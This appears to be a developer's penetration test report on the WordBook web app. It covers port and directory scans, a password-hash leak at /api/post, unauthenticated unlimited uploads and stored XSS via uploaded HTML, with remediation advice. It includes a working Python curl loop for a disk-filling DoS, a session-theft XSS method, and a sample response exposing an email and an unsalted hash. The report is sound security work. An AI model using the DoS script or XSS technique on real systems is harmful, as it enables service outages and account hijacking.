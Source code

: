## Penetration testing report for WordBook

### 2024-01-31 1p22geo <1p22geodecki@gmail.com>

#### Scope: WordBook application, revision ea4c7c59e7d93ad57d554c7de7a66c2bfa7920c3, branch main, testing/development environment, "minisforum" server

## Testing environment

Penetration testing was conducted on the entire testing/development environment, the server with all running containers and jobs.  
Every single open port and file on the server is in scope, since it might be a vulnerability.
Of course, the scope also includes the actual application, running in a staging/pre-production configuration - in Docker compose, with all containers, including telemetry, database and app containers.

## Discovered vulnerabilities

- hash exposure (vuln #01)
  - the vulnerability is not fully patched, the /api/post?user=x endpoint variant is still vulnerable and exposes unsalted password hashes together with user information.
  - AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- unlimited file uploads (vuln #03)
  - an adversary can make the app container run out of storage space, and if sufficient measures (such as disk quota or administrator actions) are not taken, no data may be saved on the entire host machine.
  - AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
- stored XSS (vuln #04)
  - HTML uploads and links attachments can be used to steal session IDs (especially since they last for 10 days now), or execute other malicious JavaScript code.
  - Any exploitation does require the user to click a link to a attached HTML page.
  - AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:L/A:N

## Attack surface

### Nmap scan result

[download here](./nmap.txt)
As you can see, the Nmap scan revealed a couple open ports:

- port 22 - main SSH server, accepting only public key logins.
- ports 2376, 2377 - docker:dind container for Jenkins and automated Docker builds.
- port 3000 - main WordBook app server, only port needed to forward outwards
- port 4000 - Gitea server, hosting the source code for all projects
- port 4022 - Git/SSH server for git push'ing to Gitea
- port 7860 - Stable Diffusion WebUI, completely irrelevant app, no auth methods, so may be vulnerable
- port 7946 - OpenTelemetry something, propably no need for it to be public
- port 8080 - Jenkins instance, password/login protected
- port 9411 - Zipkin instance for telemetry viewing
- port 16686 - Jaeger UI, more advanced telemetry interface
- ports 32813-32820 - OpenTelemetry endpoints and extensions
  - port 32816 - some JSON-based REST API
- port 50000 - unused OTel Prometheus extension

### Directory scanning result (dirb)

```
+ http://192.168.50.193:3000/cgi-bin/ (CODE:308|SIZE:8)
+ http://192.168.50.193:3000/favicon.ico (CODE:200|SIZE:11694)
+ http://192.168.50.193:3000/in (CODE:307|SIZE:4224)
+ http://192.168.50.193:3000/login (CODE:200|SIZE:6096)
+ http://192.168.50.193:3000/signup (CODE:200|SIZE:6831)
+ http://192.168.50.193:3000/in/cgi-bin/ (CODE:308|SIZE:11)
+ http://192.168.50.193:3000/in/user (CODE:307|SIZE:4951)
+ http://192.168.50.193:3000/api/cgi-bin/ (CODE:308|SIZE:12)
+ http://192.168.50.193:3000/api/check (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/comment (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/login (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/logout (CODE:307|SIZE:0)
+ http://192.168.50.193:3000/api/post (CODE:401|SIZE:31)
+ http://192.168.50.193:3000/api/register (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/upload (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/user (CODE:405|SIZE:0)
```

Even though the cgi-bin results are false positives, the scan revealed some interesting API endpoints, which were not usually accessed by front-end JS code.

# Vulnerability report

## Hash exposure

The hash exposure vulnerability is _not fully patched_, the /api/post endpoint, when asked for posts of a specific user will give out their password hash too.

GET /api/post?user=65ba0faa143573f7cd06a5bf&page=0

```json
{
  "posts": [
    {
      "_id": "65ba3153143573f7cd06a5c6",
      "content": "aaaaa",
      "posted": 1706701139786,
      "comments": [],
      "up": 0,
      "down": 0,
      "author": {
        "_id": "65ba0faa143573f7cd06a5bf",
        "email": "1p22geo@gmail.com",
        "name": "bartsz",
        "hash": "489cd5dbc708c7e541de4d7cd91ce6d0f1613573b7fc5b40d3942ccb9555cf35",
        "added": 1706692522914,
        "type": "user"
      }
    }
  ]
}
```

Affected components:

- /api/post endpoint

## Unlimited form uploads

File uploads are still not rate limited or tracked in any way.

```python
import os
host = os.sys.argv[1]
while True:
    os.system(f"curl -b session=x -X POST -F \"file=@./file\"  {host}/api/upload")
```

A simple Python script can be used to DoS the server, uploading a single file repeatedly.
Somehow file uploads don't even require authorization, and since the app is in a container, disk space runs out pretty quickly.

## Stored XSS

(this one will require user interaction)
You can upload an HTML file in the image upload form, and the markdown editor will try to append it as an image, like so

```markdown
![file.html](file.html)
```

But by removing the initial ! an adversary might make this a clickable link. Someone who clicks on the link, will get redirected to the HTML webpage created by the adversary, hosted in the WordBook domain, accessed through the /api/image endpoint, so CORS protection and others will not take place. The HTML webpage might now contain `<script>` tags, and all malicious code will be executed.
This script will be able to access `document.cookie`, as the session cookie is not HTTP-only.

It gets worse than that. The Next.js bundle for the inital /in request contains the session string. The bundle is minified and optimized, but it can be recovered. This file is a proof of concept.
[file.html](./file.html)
It recovers the session string, without using document.cookie. Even if the session cookie becomes HTTP-only, this one will still work.

# Remediation

## Hash exposure

This vulnerability is genuninely patched in all components, there is just a single vulnerable API endpoint left, propably all there is to do is apply that mongoDB aggregation stage to that one query too.

## Unlimited form uploads

Make a database collection `uploads`, start authenticating file uploads, measure the file size, and check who is uploading the most files. This will require moderator and administrator activity, but any automated solutions for this case will end up banning people who did nothing wrong.

## Stored XSS

This is propably the trickiest vulnerability to mitigate, since it's not about the app being vulerable, but the possibility of injecting a vulnerable component.
Banning all uploads except images would be one way to do it, but disallowing all non-image file attachments is quite a price to pay.
We could make all links `target=_blank download=true` links, and add `Content-Disposition: Attachment` headers to all /api/image requests, to make files only downloadable unless they are images.
Or we could change the content-type of all uploaded files (except images) into `application/octet-stream` to make sure browsers don't try to open them as HTML and show the "what to do with this file" dialog.

---

### Report attachments:

- attachment 01 : nmap scan result
  [./nmap.txt](./nmap.txt)
- attachment 02: Python script for file upload DoS
  [./script.py](./script.py)
- attachment 03 : HTML file as XSS PoC (actually this link is an example of exploitation)
  [./file.html](./file.html)
